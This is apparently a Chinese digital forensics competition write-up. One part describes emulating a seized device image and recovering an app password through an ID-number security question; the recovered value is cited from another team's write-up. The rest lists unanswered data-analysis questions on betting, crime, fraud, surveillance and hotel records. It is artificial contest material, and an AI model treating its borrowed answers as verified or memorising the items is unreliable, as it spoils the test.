<font style="color:#000000;">好我们打开来看看怎么样</font>



<font style="color:#000000;">如果我们没有替换的话，这边会显示的是让我们注册一个，但是替换之后就不用了</font>

<font style="color:rgb(77, 77, 77);">我们在电脑里找半天是知道了肯定没有所谓的密码的，因此我们这边只能点忘记密码</font>


<font style="color:#000000;">而这个密保正好有一个在问身份证后六位，别的不知道，身份证还不知道吗，这不是86刚刚问过身份证吗</font>


<font style="color:#000000;">所以我们填入30836X</font>

<font style="color:#000000;">（这边蛮神奇的我第一次仿真失败了，但是第二次成功了，上边那些图都是我的，但是我输入了身份证又出不来，后边再删了想重新仿真就仿不了开始闪退了，奇了怪了）</font>

<font style="color:rgb(77, 77, 77);">按照406的wp，最后会找回密码是1111</font>


## <font style="color:#000000;">八、数据分析</font>
### <font style="color:#000000;">89.通过对检材“01-lott.sql”文件进行分析，统计庄家"188"在2021-05-10当日的电子投注总笔数（答案格式：1）</font>


### <font style="color:#000000;">90.通过对检材“01-lott.sql”文件进行分析，统计t_trade_betrecord中庄家"188"记录中彩票类型为"jnd28"且期号在t_lottery_jnd表中存在的记录数。（答案格式：1）</font>
### <font style="color:#000000;">91.通过对检材“01-lott.sql”文件进行分析，统计庄家"188"的玩家在2021-05-10当日：电子投注内容出现频率最高的电子投注内容是什么？（答案格式：按照实际情况填写）</font>
### <font style="color:#000000;">92.通过对检材“01-lott.sql”文件进行分析，关联t_trade_betrecord与t_lottery_jnd表，分析庄家"188"在2021-05-10投注"jnd28"时：当开奖结果为"大"时，玩家投注包含"小"的笔数占比（使用双位数格式，答案格式：11.11%）</font>
### <font style="color:#000000;">93.通过对检材“02-crime_records.sql”分析，统计相邻两次作案时间间隔在1天之内的城市和该城市两次作案时间间隔在1天之内的案件总数量，找出案件总数最多的城市名。（答案格式：按照实际情况填写）</font>
### <font style="color:#000000;">94.通过对检材“02-crime_records.sql”分析，根据案件的损失金额和伤情等级，将案件分为 “轻微案件”“一般案件”“重大案件”“其他”四类（分类规则如下），并统计 2023 年各类型案件的数量。轻微案件：损失金额≤10000 元且无人员受伤（injury_level 为空或未提及）；一般案件：损失金额 10001-50000 元，或有轻微伤；重大案件：损失金额 > 50000 元，或有轻伤或有重伤；其他：非上述情况。（按照案件数量的降序输出答案，答案格式为：40/30/20/10）</font>
### <font style="color:#000000;">95.通过对检材“02-crime_records.sql”分析，统计 2021-2023 年期间（含2021年和2023年），每年处理结果为 “移送起诉” 的案件里，每一年中损失总额最高的案件类型对应的损失总额为？（按 2021 - 2023 年顺序连接损失总额，连接符号使用/,小数点保留2位，答案格式为 ：1.37/2.21/3.45）</font>
### <font style="color:#000000;">96.通过对检材“03-案件卡串号数据”表分析，该表每条数据的“卡串号(IMSI)”字段值存在问题，不可信。真实可信的卡串号值在“溯源”字段中（溯源字段的值格式均为“{手机号=[待获取的卡串号->手机卡串号(IMSI)使用过的手机号->当前]}”），请统计分析出该表中哪个真实卡串号出现过的次数最多？（答案格式：按照实际情况填写）</font>
### <font style="color:#000000;">97.通过对检材“04-涉诈案件信息表“分析，统计每个分局2024-2025年每月被骗总额环比大于30%的月份个数（环比定义：（这个月的数据-上个月的数据）/上个月数据。特殊情况，例如某分局2025年1月被骗金额总和为100，若该分局2024年12月没有被骗金额，则该分局2025年1月也符合题目要求，应增加一个月份。2024年1月不需要计算与上个月的环比情况），请写出环比大于30%的月份个数最多的分局ID名称为？（答案格式：按照实际情况填写）</font>
### <font style="color:#000000;">98.通过对检材“05-人像卡口信息表”和“06-涉毒前科人员信息表”（两表均无重复数据，直接要求答题即可。感知时间字段格式均为yyyy-MM-dd HH:mm:ss；传感器ID（人像卡口点位）值不同则代表不同的摄像点位），为摸排疑似涉毒的窝点，请分析出在00:00:00~06:00:00(含0点跟6点)人像记录中，哪个传感器点位ID抓拍到最多的不同涉毒前科人员？（答案格式：按照实际情况填写）</font>
### <font style="color:#000000;">99.接上题，为摸排潜在的涉毒人员，请分析出有多少个非涉毒前科人员至少跟3个不同的涉毒前科人员同行过？（本题的“同行”指：两人在同一个人像卡口点位感知时间差在10（含）秒内）（答案格式：1）</font>
### <font style="color:#000000;">100.近几年架设简易GOIP设备进行群呼诈骗的案件屡见不鲜。架设和维护该设备的人员通常会频繁更换酒店【即只住一天然后更换酒店】以此躲避公安的侦察打击。请根据”07-旅店住宿信息表“（该表无重复数据，直接要求答题即可。时间相关的字段格式均为yyyy-MM-dd HH:mm:ss），筛选出2024和2025年的住宿记录（以“入住时间”为准），频繁更换酒店的人员有几个？（答案格式：1）</font>
